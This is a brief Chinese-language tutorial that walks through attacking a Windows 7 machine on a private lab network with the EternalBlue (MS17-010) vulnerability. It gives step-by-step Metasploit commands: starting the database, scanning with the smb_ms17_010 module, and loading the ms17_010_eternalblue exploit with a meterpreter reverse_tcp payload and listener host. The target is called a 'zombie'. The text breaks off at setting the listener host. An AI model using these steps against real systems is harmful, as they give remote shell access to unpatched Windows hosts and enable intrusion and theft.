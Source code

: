 # 利用永恒之蓝漏洞实施对win7的攻击





-   查看主机以及肉鸡的IP地址并能ping通
    -   得到主机的IP地址为192.168.107.130 肉鸡的IP地址为192.168.107.131
-   查看数据库状态service postgresql status
    -   如果没有打开则启动数据库service postgresql start
    -   再次查看状态 active即可
-   msfdb初始化数据库: msfdb init 需要使用root权限
-   启动msfconsole
    -   查看数据库状态db_status
-   搜索ms17_010(永恒之蓝漏洞): search ms17_010
-   进行漏洞扫描use auxiliary/scanner/smb/smb_ms17_010
    -   查看需要的命令使用options获取帮助
-   设置扫描的主机或者主机段
    -   设置靶机 set rhosts 肉鸡IP/24
    -   设置线程 set threads 线程数
-   打开wireshark抓包工具监听eth0 run
-   设置用什么进行攻击 use exploit/windows/smb/ms17_010_eternalblue
-   设置攻击载荷 set payload windows/x64/meterpreter/reverse_tcp
-   设置监听主机 lhost: set lhost 主机IP地址